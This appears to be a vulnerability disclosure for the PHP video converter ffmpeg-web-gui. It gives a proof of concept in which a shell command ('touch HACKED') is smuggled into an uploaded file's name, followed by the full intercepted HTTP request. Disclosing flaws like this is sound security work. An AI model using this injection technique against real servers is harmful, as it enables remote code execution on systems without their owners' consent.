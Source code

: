 # Description

The `ffmpeg-web-gui` project is a simple `video converter` written in `PHP` which uses the `ffmpeg` command to `convert` videos in `HTML` formats.
The issue arises at the following line: https://github.com/swooningfish/ffmpeg-web-gui/blob/master/upload-and-convert.php#L176.
The `arbitrary command injection` is due to `unsafe command concatenation` with `user-supplied inputs` which can be manipulated by an attacker and result in complete `RCE` on the server.

# PoC

1. Download the code of the project
2. Put it into a `webserver` root folder (I used `Apache` with `/var/www/html/ffmpeg_web_gui`)
3. Open http://localtest.me/ffmpeg_web_gui/upload-and-convert.php
4. Upload a valid `mp4` file (I used these: https://file-examples-com.github.io/uploads/2017/04/file_example_MP4_480_1_5MG.mp4)
5. Intercept the request with Burp and change the `filename` into `test;touch HACKED;#`
6. The request will be like:

```http
POST /ffmpeg_web_gui/upload-and-convert.php HTTP/1.1
Host: localtest.me
Content-Length: 1571624
Cache-Control: max-age=0
Origin: http://localtest.me
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMFH7A2ecHBQQMhZu
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.162 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://localtest.me/ffmpeg_web_gui/upload-and-convert.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,it;q=0.8,ru;q=0.7
Connection: close

------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="file"; filename="test;touch HACKED;#.mp4"
Content-Type: video/mp4

<video_data_binary>
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="video_size"

560x304
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="video_bitrate"

700
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="video_framerate"

30
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_video_deinterlace"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_enable_audio"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_audio_sampling_rate"

44100
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_audio_bitrate"

128
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_audio_channels"

stereo
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_x264"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_ogv"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_webm"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="encoding_stills"

on
------WebKitFormBoundaryMFH7A2ecHBQQMhZu
Content-Disposition: form-data; name="submit"

Upload and convert
------WebKitFormBoundaryMFH7A2ecHBQQMhZu--

```
